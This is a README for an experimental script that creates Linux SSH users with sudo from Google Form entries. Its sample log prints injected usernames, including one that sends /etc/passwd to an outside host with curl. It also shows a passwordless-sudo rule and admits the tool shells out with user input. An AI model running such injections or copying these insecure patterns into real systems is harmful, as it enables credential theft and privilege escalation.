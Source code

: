 # Gdocs User Manager
This script manages ssh user and sudo access via... GOOGLE DOCS!

The way this works is simple:
1. A user logs into their work gmail account.
2. Once logged in, they can see a Google Form, which allows them to input the following three things for themselves:
  * full name
  * ssh username
  * ssh public key
3. A service runs in the backend of a linux host that scans the form. If it sees valid inputs for a user, it adds the system user.
4. An administer can also edit the spreadsheet and toggle some additional "hidden flags" that do things like purge a user from the system.

This is just a proof-of-concept and has security issues. Please don't use it for anything other than for fun.

For production you should use ldap + kerberos. That's the industry standard for managing ssh access.

## Why in the world...
This project was the result of brainstorming ideas for solving the following problems:

1. Allow an authenticated user to self-manage their ssh-keys
2. Allow an engineer with NO shell/linux experience to administer those users
3. Easily control access to those engineers
4. Be near real-time (less than 5 minutes from update to rollout)
5. Zero time from engineers spent rolling out keys

Google Forms/Sheets is actually a good choice for this project. Everyone knows how it works. It has incredible uptime and uses secure endpoints. It also has a well-documented API and allows for a staggering 10 million requests a day _for free_. That means you can have almost 7000 hosts update every minute using a free api key!

The Form allowed a simple way for everyone in the organization to update (read: self-service) their own API key. It forced authentication and was about as easy to use as it gets.

The backend to Google Forms is actually just a spreadsheet that's easy to read and parse. Write access to the spreadsheet can be "shared" with someone else at the company and they can manage it without needing any linux experience.

## Requirements
You'll need the following things:
1. The script in this repo
2. The install script.
3. A google API user w/ credentials

## Let's get started
### Create the Google Form
You'll need to create a form that has the following text boxes. These are case sensitive so please make sure they match exactly. Or you can change the lines in the script to be your custom field.

* ```SSH username```
* ```Username```
* ```SSH Public Key```

On the document, make sure you check only the following two boxes:
* Require <ORGANIZATION> login to view this form
* Automatically collect respondent's <ORGANIZATION username
* Only allow one response per person (requires login)
* Allow responders to edit responses after submitting

Name your document and save the name, you'll use it later on when setting environment variables.

### Create a Google API key
While logged into your organizational email, you'll need to create an API key and then activate google drive API
1. Log into the gmail account that you want to use with this service
2. Go to the Google Developer's Console: https://code.google.com/apis/console
3. Click on "Credentials" under "APIs & auth"
4. Click "Create new Client ID"

That will download your credentials file, which has the necessary information to make API calls out to Google. Download that file and keep it safe.

After that you'll need to authorize the google drive API
1. Click on "APIs" under "APIs & auth"
2. Search for "Drive API" and click on it
3. Click "activate"

### Share the Form backend with your API email
This step is important or else you won't be able to see any documents when you make API calls.

Find the Google spreadsheet that's created automatically by your Form. The title of this document is what you'll set the environment variable ```DOCUMENT_TITLE``` to on your system.

While you have the document open, share it with the email address that's provided in your credentials file. Again, this step is important! Or else you'll look for documents with the API and won't find any!

### Install the packages
If you're running ubuntu you can simply execute the install script:
```bash
$ ./install_on_ubuntu
...
```

### Set your sudoers file to allow sudo without password
Create a new file called ```/etc/sudoers.d/usermanager and add the following line:
```
%sudo ALL=NOPASSWD: ALL
```

This will allow users to who part of the "sudo" group to sudo without passwords. This isn't strictly necessary but the script automatically adds users to this group.

### Set your environment variables
This script uses the environment variable ```CREDENTIALS_FILE```. This variable must be a full-path to your credentials file that you got back from Google.

The second variable you'll need to set is ```DOCUMENT_TITLE```. This is the the name of the spreadsheet that serves as the "backend" to your Google form. For example ```SSH Access Request```.

## Phew. All set up.
Take a deep breath and hold on to you butts. The script should execute without any problems. It will add users if they are specified in the document.

```
[WARNING] Adding stephen to system
[WARNING] Adding Alice to system
[WARNING] Adding Frank to system
```

If somebody used a non-safe username, then you'll see errors like this:
```
[WARNING] Invalid user "; touch /tmp/pwned". Username must contain letters only!
[WARNING] Invalid user "; curl -XPOST http://mydomain.com -d@/etc/passwd". Username must contain letters only!
```

# Last words and warnings
I want to reiterate again that this was just a fun experiment and not fit for production. I do think there's value to using forms such as this and the API to scrape and do things with data, but not for ssh user access.

There are a few security issues:
1. Almost without exception should you never shell-out with user-supplied data.
2. There's no granularity. This grants sudo access to everyone who can submit a form
3. I did my best to sanitize the user inputs, but I don't trust it. Does anyone know of a better python library for this?
